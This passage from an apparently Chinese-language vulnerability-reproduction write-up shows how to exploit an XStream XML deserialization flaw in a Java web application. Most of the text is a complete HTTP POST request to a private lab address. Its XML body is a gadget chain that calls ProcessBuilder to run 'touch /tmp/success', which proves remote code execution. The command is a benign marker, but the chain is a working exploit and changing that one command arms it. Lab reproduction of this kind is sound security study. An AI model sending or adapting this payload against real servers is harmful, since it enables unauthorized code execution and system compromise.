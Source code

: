 ```http
_method=put&clientName=Bob_test&amount=33
```

修改 `Content-Type` 为 `application/xml` 并将上面构造好的新建 `/tmp/success` 的 payload 贴在请求体中

```http
POST /orders/3/edit HTTP/1.1
Host: 192.168.1.215:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
```